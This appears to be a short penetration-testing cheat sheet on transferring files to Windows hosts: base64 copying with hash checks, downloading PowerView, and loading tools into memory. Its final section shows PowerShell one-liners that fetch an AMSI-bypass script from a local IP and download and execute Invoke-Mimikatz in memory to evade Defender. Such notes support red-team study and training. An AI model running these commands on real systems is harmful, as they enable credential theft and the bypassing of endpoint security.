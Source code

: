 ### Copying Using Base64

Verify the MD5 hash of the target file:

```bash
garffff@garffff:~/test$ more hello.py 
print("hello world!")
gareth@gareth:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
garffff@garffff:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```bash
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

### Web Downloads

Malicious files can be detected by Defender:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\users\public\downloads> wget 
'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1

PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

### Web Downloads - Fileless (memory)

Need to bypass AMSI to load Malicious files into memory:

```bash
PS C:\Users\Sec-1> (New-Object System.Net.WebClient).DownloadString('http://192.168.0.51/amsi.txt') | IEX
```

Then load into memory:

```bash
PS C:\users\public\downloads> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

```

